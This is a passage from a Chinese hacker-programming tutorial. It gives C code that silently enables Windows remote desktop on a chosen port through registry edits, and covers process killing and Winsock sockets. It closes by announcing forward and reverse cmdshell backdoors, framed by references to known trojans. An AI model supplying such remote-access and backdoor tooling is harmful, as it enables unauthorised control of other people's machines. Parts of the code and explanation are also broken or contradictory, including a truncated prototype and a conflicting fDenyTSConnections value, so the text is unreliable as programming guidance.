> 图 7 里左边树形列表中类似文件夹的东西称之为“键”，那么 HKEY_CLASSES_ROOT、HKEY_CURRENT_USER、HKEY_LOCAL_MACHINE、HKEY_USERS 和 HKEY_CURRENT_CONFIG 这些顶层的键就称之为“根键”，在“根键”里的键称之为“子键”；在右边列表框中出现的“Opened”等类似文件的东西就称之为“键值”。

从上面的描述可以看出，注册表的结构和文件、文件夹的结构极其相似。更有意思的是，在编程流程中，注册表操作和文件操作也是非常相似的，如图 8 所示。


图 8

现在我们就来具体地学习下这几个操作注册表的函数吧！首先是 RegCreateKeyEx，它用于打开或者创建一个注册表子键，具体定义如下：

```c
LONG RegCreateKeyEx(
    HKEY hKey,
    LPCTSTR lpSubKey,
    DWORD Reserved,
    LPTSTR lpClass,
    DWORD dwOptions,
    REGSAM samDesired,
    LPSECURITY_ATTRIBUTES lpSecurityAttributes,
    PHKEY phkResult,
    LPDWORD lpdwDisposition
);
```

- hKey 参数指向键的句柄；
- lpSubKey 参数指向要打开子键的名称，一般取 HKEY_CLASSES_ROOT、HKEY_CURRENT_USER、HKEY_LOCAL_MACHINE、HKEY_USERS 和 HKEY_CURRENT_CONFIG 这些根键的值；
- Reserved 参数保留未使用，设 0 即可；
- lpClass 参数指向一个类名，一般设 0；
- dwOptions 参数表示创建子键选项。REG_OPTION_NON_VOLATILE 表示信息被保存在文件中，重启后保留；REG_OPTION_VOLATILE 表示信息被保存在内存中，系统重启后失效；
- samDesired 参数表示子键的打开方式，这里列出了重要的几个取值；

> 提示

- KEY_ALL_ACCESS：允许所有操作
- KEY_EXECUTE：允许读取操作
- KEY_QUERY_VALUE：允许查询键值中的数据
- KEY_SET_VALUE：允许创建键值和修改键值
- KEY_CREATE_SUB_KEY：允许建立下一层子键
- KEY_ENUMERATE_SUB_KEYS：允许枚举下一层子键
- KEY_CREATE_LINK：允许建立符号列表

上面的参数可以组合使用。

- lpSecurityAttributes 参数指定了键句柄的继承性；
- phkResult 参数用于返回创建或打开的子键的句柄；
- lpdwDisposition 参数指向当子键不存在时是否要创建，REG_CREATED_NEW_KEY 表示当子键不存在时创建它，存在时打开它；REG_OPENED_EXISTING_KEY 表示子键存在时打开它，不存在时不创建它。

如果函数调用成功，返回值是 `ERROR_SUCCESS`，否则返回一个非零值。当得到了一个子键句柄后，就可以调用 `RegQueryValueEx` 或 `RegSetValueEx` 读取或设置此子键下键值的值了。来看这两个函数吧，首先是 `RegQueryValueEx` 函数：

```c
LONG RegQueryValueEx(
    HKEY hKey,
    LPTSTR lpValueName,
    LPDWORD lpReserved,
    LPDWORD lpType,
    LPBYTE lpData,
    LPDWORD lpcbData
);
```

此函数用于获取一个键值的数据。下面是 `RegSetValueEx` 函数：

```c
LONG RegSetValueEx(
    HKEY hKey,
    LPCTSTR lpValueName,
    DWORD Reserved,
    DWORD dwType,
    CONST BYTE *lpData,
    DWORD cbData
);
```

此函数用于设置一个键值的数据。  
hKey 参数指向一个有效的子键的句柄，由 `RegCreateKeyEx` 函数的 phkResult 参数返回；  
lpValueName 参数指向要读取和设置的键值的名称；  
lpReserved 参数保留，未使用，设 0 即可；  
lpType 参数指向要读取和设置的键值的数据类型；  
lpData 参数指向要读取和写入数据的缓冲区；  
lpData/cbData 参数指向缓冲区的长度。  
如果函数调用成功，返回值是 `ERROR_SUCCESS`，否则返回一个非零值。

最后，当读取或设置完键值，我们必须关闭已经打开的子键句柄。这只需要调用 `RegCloseKey` 函数即可，此函数和 `CloseHandle` 相似，只有一个参数，它指向了一个已经打开的子键句柄。讲完这些枯燥的基础，下面我们就要动手写程序了。开启远程终端也就是要创建或者修改注册表中的某些键值，但是在 Windows 2000 和 Windows 2003 系统中，开启远程终端所要修改的键值有些是不一样的。并且在 Windows 2000 中修改注册表后必须重启才能成功开启远程终端，而 Windows 2003 并不需要。

这样看起来比较麻烦，为了方便，在修改注册表键值阶段我们可以不用考虑系统版本，只需要把 Windows 2000 和 Windows 2003 中关于开启终端的注册表键值通通进行修改即可。经过测试，这的确可行。然后再判断系统版本，假如是 Windows 2000 则重启，否则退出程序。

说了这么多，到底修改哪些键值呢？其实要修改的键值还是很多的，具体如下：

- 1. 在 `HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\netcache` 下建立 netcache 键，建立字符串键值 Enabled，值为 0。
- 2. 在 `HKEY_LOCAL_MACHINE\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer` 下建立 Installer 键，建立十进制类型值 EnableAdminTSRemote，值为 1。
- 3. 在 `HKEY_LOCAL_MACHINE\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon` 下修改 ShutdownWithoutLogon 键值为字符串类型，值为 0。
- 4. 在 `HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server` 下修改 TSEnabled 键值为十进制类型值。
- 5. 在 `HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\TermDD` 下修改 Start 键值为十进制类型，值为 2。
- 6. 在 `HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Services\\TermService` 下修改 Start 键值为十进制类型，值为 2。
- 7. 在 `HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server` 下修改 fDenyTSConnections 键值为十进制类型，值为 0。
- 8. 在 `HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\RDPtcp` 下修改 PortNumber 键值为十进制类型，值为终端端口号，自定义。
- 9. 在 `HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\WinStations\\RDP-Tcp` 下修改 PortNumber 键值为十进制类型，值为终端端口号，自定义。
- 10. 在 `HKEY_LOCAL_MACHINE\\SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\Wds\\rdpwd\\Tds\\tcp` 下修改 PortNumber 键值为十进制类型，值为终端端口号，自定义。
- 11. 在 `HKEY_USERS\\.DEFAULT\\Keyboard Layout\\Toggle` 下修改 Hotkey 键值为字符串类型，值为 2。

最后还需要做一步，把 7 中的键值改成 1。在没有这步的情况下，Windows 2003 的终端服务会开启失败。要修改这么多键值，我们还是写两个修改注册表的函数吧，不然代码会堆成山的。

修改注册表函数代码如下：

```c
// 用于修改字符串类型键值
void CreateStringReg(HKEY hRoot, char *szSubKey, char* ValueName, char *Data)
{
    HKEY hKey;

    // 打开注册表键，不存在则创建它
    long lRet = RegCreateKeyEx(hRoot, szSubKey, 0, NULL, REG_OPTION_NON_VOLATILE,
        KEY_ALL_ACCESS, NULL, &hKey, NULL);
    if (lRet != ERROR_SUCCESS)
    {
        printf("error no RegCreateKeyEx %s\n", szSubKey);
        return;
    }

    // 修改注册表键值，没有则创建它
    lRet = RegSetValueEx(hKey, ValueName, 0, REG_SZ, (BYTE*)Data, strlen(Data));
    if (lRet != ERROR_SUCCESS)
    {
        printf("error no RegSetValueEx %s\n", ValueName);
        return;
    }

    RegCloseKey(hKey);
}

// 用于修改数字类型键值
void CreateDWORDReg(HKEY hRoot, char* szSubKey, char* ValueName, DWORD Data)
{
    HKEY hKey;

    // 打开注册表键，不存在则创建它
    long lRet = RegCreateKeyEx(hRoot, szSubKey, 0, NULL,
        REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hKey, NULL);
    if (lRet != ERROR_SUCCESS)
    {
        printf("error no RegCreateKeyEx %s\n", szSubKey);
        return;
    }

    DWORD dwSize = sizeof(DWORD);

    lRet = RegSetValueEx(hKey, ValueName, 0, REG_DWORD, (BYTE*)&Data, dwSize);
    if (lRet != ERROR_SUCCESS)
    {
        printf("Error no RegSetValueEx %s\n", ValueName);
        return;
    }
    RegCloseKey(hKey);
}
```

hRoot 参数指向了一个打开的键的句柄或根键；  
szSubKey 参数指向要打开的子键的名称；  
ValueName 参数指向要设置的键值的名称；  
Data 参数指向要写入数据的缓冲区。  

有了上面这两个函数，修改注册表就变得简单多了。下面我们利用这两个函数来编写开远程终端的程序吧，具体代码如下：

```c
int main(int argc, char* argv[])
{
    if (argc != 2)
    {
        printf("参数错误\n");
        return 0;
    }
    DWORD Port = atoi(argv[1]);
    CreateStringReg(HKEY_LOCAL_MACHINE,
        "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\netcache",
        "Enabled","0");
    CreateDWORDReg(HKEY_LOCAL_MACHINE,
        "SOFTWARE\\Policies\\Microsoft\\Windows\\Installer",
        "EnableAdminTSRemote",0x00000001);
    CreateStringReg(HKEY_LOCAL_MACHINE,
        "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon",
        "ShutdownWithoutLogon","0");
    CreateDWORDReg(HKEY_LOCAL_MACHINE,
        "SYSTEM\\CurrentControlSet\\Control\\Terminal Server","TSEnabled",0x00000001);
    CreateDWORDReg(HKEY_LOCAL_MACHINE,
        "SYSTEM\\CurrentControlSet\\Services\\TermDD","Start",0x00000002);
    CreateDWORDReg(HKEY_LOCAL_MACHINE,
        "SYSTEM\\CurrentControlSet\\Services\\TermService","Start",0x00000002);
    CreateDWORDReg(HKEY_LOCAL_MACHINE,
        "SYSTEM\\CurrentControlSet\\Control\\Terminal Server",
        "fDenyTSConnections",0x00000001);
    CreateDWORDReg(HKEY_LOCAL_MACHINE,
        "SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\RDP-Tcp","PortNumber",Port);
    CreateDWORDReg(HKEY_LOCAL_MACHINE,
        "SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\WinStations\\RDP-Tcp",
        "PortNumber",Port);
    CreateDWORDReg(HKEY_LOCAL_MACHINE,
        "SYSTEM\\CurrentControlSet\\Control\\Terminal Server\\Wds\\rdpwd\\Tds\\tcp",
        "PortNumber",Port);
    CreateStringReg(HKEY_USERS,
        ".DEFAULT\\Keyboard Layout\\Toggle","Hotkey","2");
}
```


```cpp
CreateDWORDReg(HKEY_LOCAL_MACHINE,
    "SYSTEM\\CurrentControlSet\\Control\\Terminal Server",
    "fDenyTSConnections", 0x00000000);

OSVERSIONINFO osver = {sizeof(OSVERSIONINFO)};
// 得到系统版本号
GetVersionEx(&osver);
// 判断是不是 Windows 2000，是，则重启计算机
if(osver.dwMajorVersion==5 && osver.dwMinorVersion==0)
{
    // 重启的函数，具体代码请参见光盘
    Reboot();
}
return 0;
}
```

好了，开启远程终端的程序顺利地编写完成了。本程序也要带参运行，只有一个参数，它表示要开启远程终端的端口。

### 五、进程和线程编程

> 进程是我们经常听到的一个名词，在大家的印象当中，当一个程序被运行，就会创建一个进程。正规地来讲，进程就是应用程序的运行实例，是应用程序的一次动态执行。

在这一部分，我们要通过编程实现一个列举和结束进程的程序，类似于经典的 pulist.exe。还是先来看一下这个程序的具体流程吧，如图 9 所示。


首先我们来学习列举进程部分，从图 9 中可以清楚地看到，先是调用 CreateToolhelp32Snapshot 函数得到系统进程快照句柄。

> 那么什么是系统进程快照呢？在 Windows 系统中，内核专门维护了一个叫做系统进程块的数据结构，组成的双向链表的每一个节点描述一个进程。系统进程快照，我们可以看做是这个链表的一个副本。

这里必须要注意：在调用 CreateToolhelp32Snapshot 函数之前，必须先包含头文件 tlhelp32.h。

CreateToolhelp32Snapshot 函数的原型如下：

dwFlags 参数指定了获取系统进程快照的类型，其取值可以有如下几种：

- TH32CS_SNAPHEAPLIST，列举 th32ProcessID 指定进程中的堆
- TH32CS_SNAPMODULE，列举 th32ProcessID 指定的进程中的模块
- TH32CS_SNAPPROCESS，列举系统范围内的所有进程
- TH32CS_SNAPTHREAD，列举系统范围内的所有线程

th32ProcessID 参数指向了要获取进程快照的进程的 ID，获取系统内所有进程快照时设 0。函数执行成功返回快照句柄，否则返回 INVALID_HANDLE_VALUE。

CreateToolhelp32Snapshot 函数执行成功后，接着就可以调用 Process32First 和 Process32Next 函数列举进程了。Process32First 函数原型如下，此函数用于查找系统进程快照中的第一个进程。

```cpp
BOOL Process32First(
    HANDLE hSnapshot,
    LPPROCESSENTRY32 lppe
);
```

Process32Next 函数原型如下，此函数用于在调用完 Process32First 后继续枚举进程。

```cpp
BOOL Process32Next(
    HANDLE hSnapshot,
    LPPROCESSENTRY32 lppe
);
```

两个函数的参数完全一样，hSnapshot 参数指向由 CreateToolhelp32Snapshot 函数返回的系统进程快照句柄；lppe 参数指向一个 PROCESSENTRY32 的结构指针，进程的信息会被返回到这个结构中。结构原型如下：

```cpp
typedef struct{
    DWORD dwSize;               // PROCESSENTRY32 结构长度，可以由 sizeof 函数取得
    DWORD cntUsage;             // 进程的应用记号
    DWORD th32ProcessID;        // 进程的 ID
    DWORD th32DefaultHeapID;    // 进程默认堆 ID
    DWORD th32ModuleID;         // 进程模块 ID
    DWORD cntThreads;           // 进程所创建的线程数
    DWORD th32ParentProcessID;  // 父进程 ID
    DWORD pcPriClassBase;       // 创建线程的优先级
    DWORD dwFlags;              // 未使用
    CHAR  szExeFile[MAX_PATH];  // 进程的可执行文件名
} PROCESSENTRY32;
```

这两个函数当枚举到进程时返回 TRUE，否则返回 FALSE。由于当枚举到一个进程的时候 lppe 参数中就会返回进程的以上信息，那么我们就可以读取这些进程信息，然后输出。当然，最后不要忘了调用 CloseHandle 函数关闭由 CreateToolhelp32Snapshot 函数返回的系统进程快照句柄。

下面给出列举进程的详细代码：

```cpp
int GetProcess()
{
    char buff[1024] = {0};
    PROCESSENTRY32 pe32;
    pe32.dwSize = sizeof(pe32);
    // 获得系统内所有进程快照
    HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if(hProcessSnap == INVALID_HANDLE_VALUE)
    {
        printf("CreateToolhelp32Snapshot error!");
        return 0;
    }
    // 枚举列表中的第一个进程
    BOOL bProcess = Process32First(hProcessSnap, &pe32);
    while(bProcess)
    {
        // 格式化进程名和进程ID
        wsprintf(buff, "%s---------------------%d\r\n", pe32.szExeFile, pe32.th32ProcessID);
        // 输出进程名和进程ID
        printf(buff);
        memset(buff, 0x00, 1024);
        // 继续枚举进程
        bProcess = Process32Next(hProcessSnap, &pe32);
    }
    CloseHandle(hProcessSnap);
    return 0;
}
```

这样，列举进程的代码就实现了，下面我们来实现结束进程的代码。首先需要调用 OpenProcess 函数打开进程，得到进程句柄才能利用这个句柄进行结束进程操作。OpenProcess 函数的原型如下：

```cpp
HANDLE OpenProcess(
    DWORD dwDesiredAccess,
    BOOL bInheritHandle,
    DWORD dwProcessId
);
```

> 小提示
- PROCESS_ALL_ACCESS：所有权限
- PROCESS_QUERY_INFORMATION：遍历该进程信息的权限

dwDesiredAccess 参数指向进程对象的访问权限，重要的几个值如上；bInheritHandle 参数指向此函数返回进程句柄的继承性，TRUE 表示可继承，FALSE 表示不可继承；dwProcessId 参数指向要打开进程的 ID。如果函数执行成功则返回所打开进程的句柄，否则返回 NULL。利用 OpenProcess 函数得到进程句柄后，我们就可以调用 TerminateProcess 函数结束进程了，TerminateProcess 函数的原型如下：

```cpp
BOOL TerminateProcess(
    HANDLE hProcess,
    UINT uExitCode
);
```

hProcess 参数指向了要结束进程的句柄，由 OpenProcess 函数返回；uExitCode 参数指向了进程退出时的代码，设 0 即可。

如果函数操作顺利完成，则返回非零值；如果操作失败，则返回值为零。当然，最后还是不能忘了调用 CloseHandle 函数关闭由 OpenProcess 函数返回的进程句柄。结束进程的具体代码如下：

```cpp
int KillProcess(DWORD Pid)
{
    // 打开进程得到进程句柄
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Pid);
    if(hProcess == NULL)
    {
        printf("OpenProcess error\n");
        return 0;
    }

    // 结束进程
    if(TerminateProcess(hProcess, 0))
    {
        printf("结束进程成功\n");
        return 0;
    }
    else
    {
        printf("结束进程失败\n");
        return 0;
    }
}
```

最后是在 main 函数中对传入的参数进行判断，执行不同的函数。具体代码如下：

```cpp
int main(int argc, char* argv[])
{
    if(argc==2 && strcmp(argv[1], "list")==0)
    {
        GetProcess();
    }

    if(argc==3 && strcmp(argv[1], "kill")==0)
    {
        KillProcess(atoi(argv[2]));
    }
    return 0;
}
```

本程序执行效果如图 10 所示。


#### 线程

学习完了进程，我们再来简单地学习下线程吧！相对来说，线程这个词就比较少听到了，其实线程是进程中的实体，一个进程可以拥有多个线程，一个线程必须有一个父进程。线程不拥有系统资源，只有运行必须的一些数据结构；它与父进程的其它线程共享该进程所拥有的全部资源。

进程可以创建和撤销线程，从而实现程序的并发执行。一般来说，线程具有就绪、阻塞和运行三种基本状态。在多中央处理器的系统里，不同线程可以同时在不同的中央处理器上运行，甚至当它们属于同一个进程时也是如此。

线程这部分内容在这里没有安排实例，但是在网络通信的部分内容中会应用到线程的知识。首先我们必须知道如何创建一个线程，其实调用一个 API 函数就可以实现了，此函数原型如下：

```cpp
HANDLE CreateThread(
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    DWORD dwStackSize,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID lpParameter,
    DWORD dwCreationFlags,
    LPDWORD lpThreadId
);
```

- `lpThreadAttributes` 参数指向结构 `SECURITY_ATTRIBUTES` 的指针，用于定义新线程的安全属性，这里设 `NULL` 即可；
- `dwStackSize` 参数表示用来分配以字节数表示的线程堆栈大小，`0` 为默认大小；
- `lpStartAddress` 参数指向一个线程函数地址；
- `lpParameter` 参数指向传递给线程函数的参数；
- `dwCreationFlags` 参数表示创建线程后线程的运行状态，`CREATE_SUSPENDED` 表示挂起当前创建的线程；`0` 表示立即执行当前创建的线程；
- `lpThreadId` 参数用于返回新创建线程的 ID。

若函数调用成功则返回新线程的句柄，否则返回 `NULL`。上面的参数除 `lpStartAddress` 外，应该都比较好理解。

> 那什么是线程函数呢？线程函数简单地理解，就是这个线程所要执行的代码。每个线程都有自己的线程函数，当然多个线程可以调用同一个线程函数。

线程函数一般以如下形式定义：

```cpp
DWORD WINAPI Thread(LPVOID lpParam)
{
    // 线程函数代码
}
```

当一个线程被创建之后，父线程可以选择等待这个线程的线程函数返回，或者继续往下执行。假如要等待线程函数返回，可以调用如下 API 函数：

```cpp
DWORD WaitForSingleObject(
    HANDLE hHandle,
    DWORD dwMilliseconds
);
```

此函数等待某个对象受信后返回。`hHandle` 参数指向要等待的对象句柄，这个句柄由 `CreateThread` 函数返回；`dwMilliseconds` 参数指向等待超时的毫秒数，若为 `INFINITE`，则没有设置超时，一直等待，直到线程函数返回。

如果返回值为 `WAIT_OBJECT_0`，表明指定的对象已经是处于信号状态了；如果返回值为 `WAIT_TIMEOUT`，表明在超时范围内，期望的事件没有发生。若调用失败，则返回 `WAIT_FAILED`。

这两个函数一般以如下形式被组合调用：

```cpp
DWORD ThreadId;
// Thread 是线程函数
HANDLE hThread = CreateThread(NULL, 0, Thread, NULL, 0, &ThreadId);
if(hThread != NULL)
    WaitForSingleObject(hThread, INFINITE);
```

### 六、网络通信编程

俗话说，网络造就了黑客。网络给黑客提供了广阔的活动空间，所以网络通信是黑客编程的重中之重。无论是古老的冰河木马，还是现在的灰鸽子，都是在网络通信的基础上构建起来的。

其实网络通信的过程相当复杂，作为一名网络通信编程的初学者，我们不必了解太多（有兴趣的朋友可以去看看《TCP/IP 详解》，对以后的学习一定是有帮助的），学好扎实的基础知识才是正道。

> 首先我们必须知道网络通信都是基于协议的，协议是网络上所有设备（服务器、交换机、路由器等）之间通信规则的集合，它定义了通信时信息必须采用的格式和这些格式的意义。通俗地说，协议就是网络之间沟通、交流的桥梁，只有相同网络协议的计算机才能进行信息的沟通与交流。这就好比人与人之间交流所使用的各种语言一样，只有使用相同语言才能进行很好的交流。我们现在的互联网就是基于 TCP/IP 协议的。

目前的网络通信主要分为两种类型，一种是 TCP 通信（也是本节要讲的通信类型），它是面向连接的通信。它保证了可靠的数据传输，像用 IE 打开一个网页就是属于这种通信。另一种是 UDP 通信，它只是把称作数据报的分组从一台主机发送到另一台主机，但并不保证数据报能到达另一端，像 QQ 就是这种通信形式。

在 Windows 平台上，要实现网络编程非常简单，因为微软为我们提供了强大的网络编程接口 winsock。它就是微软提供的一系列 API 函数，所以在调用函数之前必须包含其头文件 winsock2.h。由于 VC++6.0 默认没有连接这些函数的导入库文件，所以还需要添加对 WS2_32.lib 的链接，具体命令如下：

```cpp
#include <winsock2.h>
#pragma comment(lib, "ws2_32.lib")
```

下面我们先来看一下 TCP 通信的模型图，如图 11 所示。

这是一个经典的服务器端和客户端用 Winsock API 实现 TCP 通信的过程。下面将根据这个连接过程，一步步地为大家讲解具体的编程过程。

先是服务器端的编写。由于 winsock 库没有被 VC++6.0 默认装载，所以在调用 winsock 函数之前必须装载 winsock 库，否则将会返回 SOCKET_ERROR 错误。这也就是图 11 中的第一步，调用 WSAStartup 函数初始化 WSA，其原型如下：

```cpp
int WSAStartup(
```


wVersionRequested 参数用来指定想要加载 Winsock 库的版本；lpWSAData 参数指向一个 LPWSADATA 结构指针，用来保存 WSAStartup 函数返回的 winsock 库的版本信息，这里我们不需要具体了解。此函数调用成功返回 0，失败可调用 WSAGetLastError 函数确定原因。装载 Winsock 库的代码如下：

```cpp
WSADATA wsaData;
// MAKEWORD 是一个宏，它的作用是将两个 byte 型合并成一个 Word 型。
WORD sockVersion = MAKEWORD(2, 2);
if (WSAStartup(sockVersion, &wsaData) != 0)
    return 0;
```

那么第一步就这么简单地完成了，这样就可以顺利地调用 winsock 函数了。接下去我们要调用 socket 函数建立套接字。

> 套接字可以看成是在两个程序进行通信连接中的一个端点，一个程序将一段信息写入套接字中，该套接字将这段信息发送到另外一个套接字中，使这段信息能够传送到其它程序。

socket 函数的原型如下：

```cpp
SOCKET socket(
    int af,
```

af 参数用来指定套接字使用的地址格式，这里只能用 AF_INET；  
type 参数用来指定套接字的类型。具体类型如下：

- SOCK_STREAM：流套接字，使用 TCP 提供有连接的可靠传输；
- SOCK_DGRAM：数据报套接字，使用 UDP 提供无连接的不可靠传输；
- SOCK_RAW：原始套接字，winsock 接口并不使用某种特定的协议去封装它，而是由程序自行处理数据报和协议首部。

由于这里是 TCP 通信，所以选择 SOCK_STREAM。

protocol 参数是配合 type 使用的，用来指定协议类型。这里是 TCP 通信，所以使用 IPPROTO_TCP。假如是 UDP 通信，那么就是 IPPROTO_UDP，对应的 type 也应该是 SOCK_DGRAM。

当函数成功调用时返回一个新的 SOCKET 句柄，失败则返回 INVALID_SOCKET。

讲完了 socket 函数，我们就可以轻松地建立一个套接字了，具体代码如下：

```cpp
SOCKET sListen = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
if (sListen == INVALID_SOCKET)
{
    printf("socket error \n");
    return 0;
}
```

套接字已经建立了，那么下一步就应该是绑定本地地址和端口等信息到套接字上。这里要说明下，客户端在建立套接字后可以直接连接服务器端，不需要调用 bind 函数把本地地址和端口绑定到套接字上。因为在调用 connect 函数后，会自动绑定，当然端口是随机的。

下面是 bind 函数的原型：

```cpp
int bind(
    SOCKET s,
    const struct sockaddr FAR *addr,
    int namelen
);
```

s 参数是指向一个有效的套接字句柄，由 socket 函数返回；

addr 参数指向要关联的本地地址，这里是一个 sockaddr 结构，此结构具体如下：

```cpp
struct sockaddr_in {
    short int sin_family;
    unsigned short int sin_port;
    struct in_addr sin_addr;
    unsigned char sin_zero[8];
};
```

sin_family 域必须设置为 AF_INET；  
sin_port 域指定了 TCP 或 UDP 通信服务的端口号；  
sin_addr 域用来存储 32 位 IP 地址。

在这个结构中，我们只需要知道其中包含了一个联合 S_un，联合中有一个 u_long 类型 S_addr 用来存储 32 位的二进制数所表示的 IP 地址。我们可以使用 inet_addr 函数将一个小数点的十进制 IP 转换成 32 位二进制数 IP。而 inet_ntoa 函数是 inet_addr 函数的逆函数，将一个


32位二进制数表示的IP地址转化为用一个小数点分隔的十进制字符串表示的IP地址。sin_zero域还没有被使用。namelen参数指向一个sockaddr结构的大小，可由sizeof函数取得。函数成功调用时返回0，调用失败时返回SOCKET_ERROR。下面给出绑定本地IP的具体代码：

```c
sockaddr_in sin;
sin.sin_family = AF_INET;
sin.sin_port = htons(4500); // htons函数，将主机的无符号短整数转换成网络字节顺序，4500端口就是本地要监听的端口
sin.sin_addr.S_un.S_addr = INADDR_ANY; // INADDR_ANY表示所有可用地址
if (bind(sListen, (LPSOCKADDR)&sin, sizeof(sin)) == SOCKET_ERROR)
{
    printf("bind error \n");
    return 0;
}
```

接着下一步就是调用listen函数，设置套接字进入监听状态。其函数原型如下：

```c
int listen(SOCKET s, int backlog);
```

s参数指向一个套接字句柄，由socket函数创建；backlog参数表示监听队列中允许保持的尚未处理的最大连接数量，通俗地说就是同时允许的最大连接数。函数成功调用时返回0，调用失败时返回SOCKET_ERROR。listen函数调用的具体代码如下：

```c
if (listen(sListen, 5) == SOCKET_ERROR) // 设置套接字进入监听状态，最大同时5个连接
{
    printf("listen error. \n");
    return 0;
}
```

设置套接字进入监听状态后，下一步就应该进入循环了。此循环的意义在于，可以使程序在结束一个连接后，继续处理其他连接。先是调用accept函数等待接收客户端的连接，accept函数原型如下：

```c
SOCKET accept(
    SOCKET s,
    struct sockaddr* addr,
    int* addrlen
);
```

s参数指向一个套接字句柄，由socket函数返回；addr参数指向一个sockaddr结构指针，用来存放客户端的地址信息；addrlen参数指向一个sockaddr结构长度的指针，可以由sizeof函数取得。在调用了accept函数后，如果在阻塞模式下，那么accept会一直等待下去，直到有连接后才往下执行。当有连接后，accept函数就会返回一个新的标识客户端的套接字句柄。在得到套接字句柄后我们就可以利用它来接收和发送数据了。下面就来看一下send和recv函数的原型：

```c
int recv(
    SOCKET s,
    char FAR *buf,
    int len,
    int flags
);

int send(
    SOCKET s,
    const char FAR *buf,
    int len,
    int flags
);
```

recv函数用于接收数据，send函数用于发送数据。它们的参数基本相同：

- s参数指向一个套接字句柄，由accept函数返回；
- buf参数指向发送或接收数据的缓冲区；
- len参数指向发送或接收数据的缓冲区长度；
- flags参数表示调用方式，一般设为0。

recv函数在调用成功时返回收到的字节数，失败时返回SOCKET_ERROR。

那么在数据传输完毕后我们必须调用closesocket函数来关闭由accept返回的套接字，这样就结束了一次和客户端的通信。closesocket函数只有一个参数，就是要关闭的套接字句柄。下面给出这一循环过程的代码：

```c
int nAddrLen = sizeof(remoteAddr);
char revData[255];
while (TRUE)
{
    // 接收一个新连接
    sClient = accept(sListen, (SOCKADDR*)&remoteAddr, &nAddrLen);
    // accept函数调用失败则继续等待连接
    if (sClient == INVALID_SOCKET)
    {
        printf("accept() error");
        continue;
    }

    // 接收数据
    int ret = recv(sClient, revData, 255, 0);
    if (ret > 0)
    {
        // 对数据进行处理
    }

    // 关闭套接字句柄，结束会话
    closesocket(sClient);
}
```

那么最后，在退出这个服务器端程序前，我们必须再次调用closesocket函数关闭由socket函数建立的套接字句柄，并且调用WSACleanup函数释放winsock库。WSACleanup函数没有参数，直接调用即可。

服务器端的实现过程基本就这样了，那么下面我们就来实现客户端。客户端和服务器端的唯一不同，就是在调用socket函数建立套接字后，不用调用bind函数绑定本地地址到套接字中，而是可以直接调用connect函数连接服务器端。其他过程和服务器端一样。connect的函数原型如下：

```c
int connect(
    SOCKET s,
    const struct sockaddr FAR *name,
    int namelen
);
```

s参数指向一个套接字句柄，由socket函数创建；  
name参数指向了一个sockaddr结构指针，包含了服务器端的地址信息；  
namelen参数指向一个sockaddr结构的长度，可以由sizeof函数取得。  
当函数成功调用时返回0，调用失败时返回SOCKET_ERROR。  
这里还有一点要说明，在服务端程序中调用send和recv函数的第一个套接字句柄参数是由accept函数返回的，但是在客户端中，这个句柄参数是用socket函数返回的句柄。

讲了那么多，终于把TCP通信过程基本讲完了，这里我们就来编写两个后门，一个正向连接的cmdshell后门和一个反向连接的cmdshell后门。

首先来写正向连接的cmdshell后门。正向连接后门就相当于是一个服务端程序，监听一个端口，等待用户来连接，只不过这个服务端要实现的是cmdshell的功能。

那么具体如何实现cmdshell功能呢？这个功能必须调用cmd.exe，后门程序负责从用户那里接收命令，并且把命令传递给cmd.exe，然后从cmd.exe接收执行结果，并且把执行结果传输给用户。

从上面过程可以看到，我们必须要创建cmd.exe进程。在后门中创建cmd进程，一般要用到CreateProcess函数，其函数原型如下：

```c
BOOL CreateProcess(
    LPCTSTR lpApplicationName,
    LPTSTR lpCommandLine,
    LPSECURITY_ATTRIBUTES lpProcessAttributes,
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    BOOL bInheritHandles,
    DWORD dwCreationFlags,
    LPVOID lpEnvironment,
    LPCTSTR lpCurrentDirectory,
    LPSTARTUPINFO lpStartupInfo,
    LPPROCESS_INFORMATION lpProcessInformation
);
```

- lpApplicationName参数指向包含可执行文件名的字符串；
- lpCommandLine参数指向命令行字符串，用于传递给可执行文件参数；
- lpProcessAttributes参数描述进程的安全性属性，NULL为默认安全性；
- lpThreadAttributes参数描述进程初始线程（主线程）的安全性属性，NULL为默认安全性；
- bInheritHandles参数表示子进程是否可以继承父进程的句柄；
- dwCreationFlags参数表示创建进程的优先级类别和进程的类型；
- lpEnvironment参数指向环境变量块，环境变量可以被子进程继承；
- lpCurrentDirectory参数指向表示当前目录的字符串，当前目录可以继承；
- lpStartupInfo参数指向STARTUPINFO结构，表示新进程中主窗口的位置、大小、输入、输出等信息；
- lpProcessInformation参数指向PROCESS_INFORMATION结构，用来存储返回的新进程信息。

信息，此结构具体成员如下：

```c
typedef struct _PROCESS_INFORMATION {
    HANDLE hProcess;      // 进程句柄
    HANDLE hThread;       // 主线程句柄
    DWORD  dwProcessId;   // 进程ID
    DWORD  dwThreadId;    // 主线程ID
} PROCESS_INFORMATION;
```

创建进程成功返回TRUE，并且lpProcessInformation返回新进程的信息，否则返回FALSE。

